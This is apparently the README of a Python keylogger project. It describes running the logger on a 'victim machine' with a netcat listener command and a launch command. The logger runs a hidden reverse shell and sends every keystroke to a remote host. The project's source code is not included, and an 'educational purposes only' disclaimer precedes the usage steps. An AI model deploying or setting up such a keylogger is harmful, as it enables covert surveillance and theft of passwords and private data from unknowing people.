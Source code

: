 # Python Keylogger
Simple keylogger written in Python to capture the keystrokes of a user and output them into raw and readable text files. Work in progress.

<br><br>

# Disclaimer

### __Malicious use of this program is illegal.__

### This program is for educational purposes only and is not to be used for any malicious purposes. This includes downloading it on a computer that you do not own or using it on an unknowing individual.

### Upon downloading this, your antivirus software may detect it as malware and try to quarantine or delete it.

<br><br>

# Usage
Before running the keylogger on the victim machine, the listening host must run the command ```nc -lnvp <port>```.

Run the keylogger in a Windows machine with ```python3 keylog_win.py <hostname> <port>``` with ```<hostname>``` being the IP address of the listener machine. The program will run a reverse shell in the background of all tasks while capturing any keys that are pressed and sending them to the provided host.

The output of the logger will appear in the remote terminal when the user presses a character key.